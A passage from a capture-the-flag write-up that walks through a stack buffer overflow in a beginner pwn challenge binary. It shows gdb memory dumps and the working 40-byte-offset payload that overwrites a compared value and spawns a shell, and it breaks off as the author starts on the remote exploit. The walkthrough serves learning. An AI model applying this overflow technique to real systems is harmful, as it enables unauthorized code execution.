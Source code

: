 ```
(gdb) run < <(python3 -c "print('a' * 56)")
(gdb) x/8gx $rbp - 0x8
0x7fffffffd758:  0x6161616161616161 0x6161616161616161
0x7fffffffd768:  0x00007ffff7de4b00 0x00007fffffffd858
0x7fffffffd778:  0x0000000100000064 0x00000000004011f6
0x7fffffffd788:  0x0000000000001000 0x00000000004012c0
(gdb) x/1gx $rbp - 0x8
0x7fffffffd758: 0x6161616161616161
```

Jackpot! We've overwritten 16 bytes of the address that the `cmp` instruction
reads. Let's try setting it to `0xff` instead, so we get a shell. Python 3 is
not that great for binary exploitation, so the code for this is a little bit
ugly, but if it works, it works!

```
(gdb) run < <(python3 -c "import sys; sys.stdout.buffer.write(b'a' * 40 + b'\xff' * 8)")
(gdb) x/1gx $rbp - 0x8
0x7fffffffd758: 0xffffffffffffffff
```

Now let's let execution continue as normal by using the `continue` command:

```
(gdb) continue
Continuing.
[Detaching after vfork from child process 22950]
[Inferior 1 (process 22947) exited normally]
```

This might seem underwhelming, but our explit works! A child process was
spawned, and as a bonus, we didn't get any segmentation faults! The reason we
don't get an interactive shell is because we used python to pipe input into the
program which makes it non-interactive.

At this point I was about 12 hours in of straight gdb hell, and I was very
happy to see this shell. After discovering this, I immediately tried it outside
the debugger and was dissapointed to see that my exploit didn't work. After a
small panick attack I found out this was because of my environment variables.
You can launch an environment-less shell by using the `env -i sh` command:

```
λ generic → λ git master* → env -i sh
sh-5.1$ python3 -c "import sys; sys.stdout.buffer.write(b'a' * 40 + b'\xff' * 8)" | ./beginner-generic-pwn-number-0
"𝘭𝘦𝘵𝘴 𝘣𝘳𝘦𝘢𝘬 𝘵𝘩𝘦 𝘵𝘳𝘢𝘥𝘪𝘵𝘪𝘰𝘯 𝘰𝘧 𝘭𝘢𝘴𝘵 𝘮𝘪𝘯𝘶𝘵𝘦 𝘤𝘩𝘢𝘭𝘭 𝘸𝘳𝘪𝘵𝘪𝘯𝘨"
rob inc has had some serious layoffs lately and i have to do all the beginner pwn all my self!
can you write me a heartfelt message to cheer me up? :(
sh-5.1$ # another shell :tada:
```

Now it was time to actually do the exploit on the remote server.

I whipped up the most disgusting and janky python code that I won't go into
detail about, but here's what is does (in short):
